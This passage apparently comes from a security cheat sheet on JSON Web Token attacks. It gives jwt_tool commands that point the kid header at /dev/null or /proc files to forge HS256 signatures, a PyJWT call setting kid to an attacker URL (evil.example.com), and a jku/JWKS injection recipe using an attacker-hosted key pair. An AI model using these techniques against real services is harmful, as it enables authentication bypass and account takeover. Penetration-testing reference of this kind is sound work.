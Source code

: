 The content of the file specified in the kid header will be used to generate the signature.

```js
// Example for HS256
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```

The common ways to misuse the kid header:
* Get the key content to change the payload
* Change the key path to force your own
    ```py
    >>> jwt.encode(
    ...     {"some": "payload"},
    ...     "secret",
    ...     algorithm="HS256",
    ...     headers={"kid": "http://evil.example.com/custom.key"},
    ... )
    ```

* Change the key path to a file with a predictable content.
  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```

* Modify the kid header to attempt SQL and Command Injections


### JWKS - jku header injection

"jku" header value points to the URL of the JWKS file. By replacing the "jku" URL with an attacker-controlled URL containing the Public Key, an attacker can use the paired Private Key to sign the token and let the service retrieve the malicious Public Key and verify the token.

It is sometimes exposed publicly via a standard endpoint:

* `/jwks.json`
* `/.well-known/jwks.json`
* `/openid/connect/jwks.json`
* `/api/keys`
* `/api/v1/keys`
* [`/{tenant}/oauth2/v1/certs`](https://docs.theidentityhub.com/doc/Protocol-Endpoints/OpenID-Connect/OpenID-Connect-JWKS-Endpoint.html)

You should create your own key pair for this attack and host it. It should look like that:

```json
{
    "keys": [
        {
            "kid": "beaefa6f-8a50-42b9-805a-0ab63c3acc54",
            "kty": "RSA",
            "e": "AQAB",
            "n": "nJB2vtCIXwO8DN[...]lu91RySUTn0wqzBAm-aQ"
        }
    ]
}
```
